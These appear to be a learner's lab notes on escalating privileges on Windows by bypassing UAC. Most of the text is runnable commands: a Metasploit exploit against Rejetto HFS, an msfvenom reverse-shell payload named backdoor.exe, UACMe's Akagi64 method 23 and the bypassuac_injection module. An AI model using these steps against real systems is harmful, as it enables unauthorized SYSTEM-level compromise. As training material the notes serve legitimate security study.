 Bypassing UAC With UACMe

#### UAC
- User Account Contorl is a Windows Security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the adminitrator or a user account that is part of the local adminitrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt,whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
#### Bypassing UAC
- In order to successfully bypass UAC,we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges,consequently prompting the user for confirmation.
- There are multiple tools and technique that can be used to bypass UAC,however,the tool and technique used will depend on the version of Windows running on the target system.

#### Bypassing UAC with UACMe
- UACMe is an open source,robust privilge escalation tool developed by @hfire0x.It can be used to bypass Windows UAC by leveraging various techniques
- - Github: https://github.com/hfiref0x/UACME
- The UACMe github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a windows target with administrative/elevated privilges by abuisng the inbuit windows AuteElevated tool.
- The UACMe github repository has more than 60 exploits that can be used to bypass UAC  depending on the version of Windows running on the target.

#### in commnad prompt cmd
- net  users [ this will list all the users]
- net localgroup administrator [ this will list all the local members group of administrator ]
#### managing uac control
- in windows search for uac
- set the security level from GUI
#### Exploiting
- nmap 10.2.22.220 [ this will list all the services]
- service postgresql start
- msfconsole
- setg RHOSTS 10.2.22.220
- search rejetto [ as rejetto is running on the server]
- use exploit/windows/http/rejetto_hfs_exec 
- set everything requires
- this will give meterpreter session
- sysinfo [ for basic information ]
- pgrep explorer  [ for migrate to explorer session this will give us id ]
-  migrate 2448 [ 2448 found from previous command id and this will give us x64 bit windows ,we can check it again using sysinfo] 
- getuid [ for checking user ]
- getprivs [ trying to get privileges the current user have]
- shell [ for getting shell ]
- net users [ list all users ]
- net localgroup administrators [ this will show members of administrative group ]
- As our current user is part of administrative group we can use UAC for privilege escalation
- now back to meterpreter sessions
- now we need to create msfvenom paylaods so move into new tab
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT= 1234 -f exe > 'backdoor.exe'
- now open msfconsole in new tab
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.10.5.2
- set LPORT 1234
- now back to previous meterpeter sessions
- cd C:\\ [move to root folder\
- mkdir Temp [ create Temp directory ]
- "uplaod backdoor.exe  ."[ here backdoor.exe is msfvenom payload]
- "upload /root/Desktop/tools/UACME/Akagi64.exe ."[ this will upload  uacme binaries into temp folder ]
- shell [ get a shell ]
- Akagi64.exe 23 C:\Temp\backdoor.exe [ here 23 is method from github module, we need to give full path for backdoor.exe ]
- this will give us new meterpreter session in multi/handler
- getprivs  [ this will give us all the privileges it has ]
- ps [ list all the processes ]
- migrate 688 [ here 688 is process number,as we are privileged we can migrate to any process ]
- getuid [ this will show us NT AUTHORITY\SYSTEM ]
#### using metasploit
- search bypassuac
- use exploit/windows/local/bypassuac_injection
- set everything requires
- set TARGET \ X64
- run 
- this will give us privileged meterpreter shell
  
